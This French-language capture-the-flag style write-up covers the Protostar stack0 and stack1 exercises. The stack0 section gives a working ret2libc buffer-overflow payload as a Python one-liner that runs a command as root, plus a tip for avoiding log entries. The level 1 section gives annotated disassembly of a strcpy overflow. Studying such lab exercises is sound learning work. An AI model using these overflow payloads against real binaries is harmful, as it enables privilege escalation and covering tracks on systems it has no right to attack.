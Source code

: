 Notre payload est constitué successivement de :

- un padding de 80 octets

- l'adresse de `system()` qui écrase l'adresse de retour

- un padding de 4 octets qui sera utilisé comme saved-eip à la sortie de la fonction `system()` (via son instruction `ret`)

- l'adresse de la chaine `variable` provenant du message `you have changed the 'modified' variable`

Exploitation :

```shellsession
$ cp /usr/bin/whoami /tmp/variable
$ export PATH=/tmp:$PATH
$ python -c 'import struct;print "A" * 80 + struct.pack("<I", 0xb7ecffb0) + "BBBB" + struct.pack("<I", 0x08048520)' | ./stack0
you have changed the 'modified' variable
root
Segmentation fault
$ dmesg|tail -1
[ 8476.152690] stack0[1829]: segfault at 42424242 ip 42424242 sp bffffd04 error 4
```

On voit que `whoami` a bien été exécuté (affiche `root`) et que après ça un segfault a eu lieu car le code a essayé de sauter ensuite sur l'adresse de padding correspondant à `BBBB`.

On aurait pu y écrire l'adresse de la fonction `exit()` pour éviter une entrée dans les logs :)

## Level 1

Ok je commence à comprendre l'idée du challenge et effectivement on était pas sensé aller jusqu'à l'exploitation XD

Ici on a donc une variable sur la stack qui se fit écraser et on doit faire en sorte qu'elle obtienne une certaine valeur :

```nasm
int main (int argc, char **argv, char **envp);
; arg char **argv @ ebp+0x8
; arg char **envp @ ebp+0xc
; var const char *src @ esp+0x4
; var char *dest @ esp+0x1c
; var int32_t var_5ch @ esp+0x5c
0x08048464      push    ebp
0x08048465      mov     ebp, esp
0x08048467      and     esp, 0xfffffff0
0x0804846a      sub     esp, 0x60
0x0804846d      cmp     dword [argv], 1
0x08048471      jne     0x8048487
0x08048473      mov     dword [src], str.please_specify_an_argument ; 0x80485a0
0x0804847b      mov     dword [esp], 1 ; int eval
0x08048482      call    errx       ; sym.imp.errx ; void errx(int eval)
0x08048487      mov     dword [var_5ch], 0
0x0804848f      mov     eax, dword [envp]
0x08048492      add     eax, 4
0x08048495      mov     eax, dword [eax]
0x08048497      mov     dword [src], eax ; const char *src
0x0804849b      lea     eax, [dest]
0x0804849f      mov     dword [esp], eax ; char *dest
0x080484a2      call    strcpy     ; sym.imp.strcpy ; char *strcpy(char *dest, const char *src)
0x080484a7      mov     eax, dword [var_5ch]
0x080484ab      cmp     eax, 0x61626364
0x080484b0      jne     0x80484c0
0x080484b2      mov     dword [esp], str.you_have_correctly_got_the_variable_to_the_right_value ; 0x80485bc ; const char *s
0x080484b9      call    puts       ; sym.imp.puts ; int puts(const char *s)
```